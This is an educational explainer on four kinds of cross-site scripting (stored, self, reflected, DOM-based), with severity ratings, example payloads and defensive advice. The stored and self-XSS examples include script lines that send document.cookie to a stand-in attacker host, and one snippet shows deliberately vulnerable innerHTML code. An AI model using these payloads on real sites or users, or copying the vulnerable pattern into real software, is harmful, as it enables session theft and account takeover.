 # 🔥 Types of Cross-Site Scripting (XSS) Attacks — with Examples

Cross-Site Scripting (XSS) attacks come in different forms depending on **how and where the malicious script is injected and executed**. All of them aim to run unauthorized JavaScript in the victim’s browser.

Below are the four main types of XSS, explained with practical examples and their severity.

---

## 1. 📌 **Stored XSS (Persistent)**

**Severity: High** 🔥

The malicious script is **permanently stored** on the server (e.g. in a database) and executed whenever any user loads that data.

### 📦 Example:

A user posts a comment:

```html
Nice post!
<script>
  fetch("https://attacker.com?c=" + document.cookie);
</script>
```

If the server doesn’t sanitize it, then **every user who views that comment** will unknowingly run the attacker's script.

### 🧠 Common Sources:

- Comment sections
- User profiles
- Message boards

### ⚠️ Risk:

- Affects all users who view the malicious content
- Can lead to mass account takeover or defacement

---

## 2. 🧨 **Self-XSS**

**Severity: Medium** ⚠️

Self-XSS is a social engineering attack where the attacker **tricks the victim into pasting and executing malicious JavaScript code in their own browser’s developer console**.

### 📦 Example:

The attacker might say:

> "To get free features, open the console and paste this code:"

```js
fetch("https://attacker.com/steal?cookie=" + document.cookie);
```

### 🧠 Common Scenarios:

- Social media scams
- Fake reward or access pages
- Discord or browser game giveaways

### ⚠️ Risk:

- Exploits the user's trust and curiosity
- Does not require a server vulnerability
- Many browsers warn users about this

---

## 3. ✅ **Reflected XSS (Non-Persistent)**

**Severity: Medium–High** ⚠️

The malicious script is **reflected off the server** — usually via URL parameters — and executed immediately in the user's browser.

### 📦 Example:

```js
https://example.com/search?q=<script>alert('XSS')</script>
```

If the server responds with:

```html
<p>
  You searched for:
  <script>
    alert("XSS");
  </script>
</p>
```

Then the script runs immediately.

### 🧠 Common Sources:

- URL query parameters
- Form submissions
- HTTP headers

### ⚠️ Risk:

- One-time attacks via malicious links
- Often used in phishing or session stealing

---

## 4. 🧠 **DOM-Based XSS**

**Severity: Medium–High** ⚠️

The vulnerability exists **entirely in the frontend JavaScript code**. The script reads data (e.g. from `location.hash`, `location.search`) and injects it into the DOM without sanitization.

### 📦 Example:

```js
// Vulnerable code
const query = new URLSearchParams(location.search);
document.body.innerHTML = query.get("msg");
```

Attack URL:

```js
https://example.com/?msg=<img src=x onerror="alert('XSS')">
```

This directly writes unsanitized input into the DOM.

### 🧠 Common Sources:

- Client-side templating
- `innerHTML`, `document.write`, `insertAdjacentHTML`

### ⚠️ Risk:

- Harder to detect (frontend-only)
- Doesn’t require a server-side vulnerability

---

## 🛡️ Summary Table

| Type          | Stored on Server? | Triggered by User? | Example Vector           | Severity       |
| ------------- | ----------------- | ------------------ | ------------------------ | -------------- |
| Stored XSS    | ✅ Yes            | ✅ Yes             | Comments, messages       | 🔥 High        |
| Self-XSS      | ❌ No             | ✅ Yes (manual)    | Console copy-paste       | ⚠️ Medium      |
| Reflected XSS | ❌ No             | ✅ Yes             | Search query, form input | ⚠️ Medium–High |
| DOM-Based XSS | ❌ No (JS only)   | ✅ Yes             | `innerHTML`, URL parsing | ⚠️ Medium–High |

---

## ✅ Defending Against All Types

- Sanitize and escape all user input
- Use `textContent` instead of `innerHTML`
- Apply server-side and client-side input validation
- Use trusted libraries like DOMPurify
- Implement strong CSP (Content Security Policy)

> **All XSS types are dangerous** and can lead to session hijacking, phishing, data theft, or full account compromise.
